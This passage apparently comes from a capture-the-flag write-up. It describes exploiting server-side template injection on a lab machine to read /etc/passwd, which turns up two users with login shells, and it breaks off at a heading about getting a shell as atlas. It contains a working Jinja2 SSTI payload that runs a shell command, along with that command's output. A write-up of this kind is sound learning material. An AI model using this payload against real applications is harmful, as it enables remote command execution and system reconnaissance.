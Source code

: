 ![ssti-config-items](./images/ssti-config-items.png "SSTI config valriables")

Attempting to read files on the system using an SSTI payload, I was able to retrieve the contents of the `/etc/passwd` file, revealing two users with a login shell.
Regrettably, the password from config variables doesn't work for the `silentobserver` user either.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

```bash
silentobserver:x:1001:1001::/home/silentobserver:/bin/bash
atlas:x:1000:1000::/home/atlas:/bin/bash
```

### Shell as atlas ( w/ firejail)
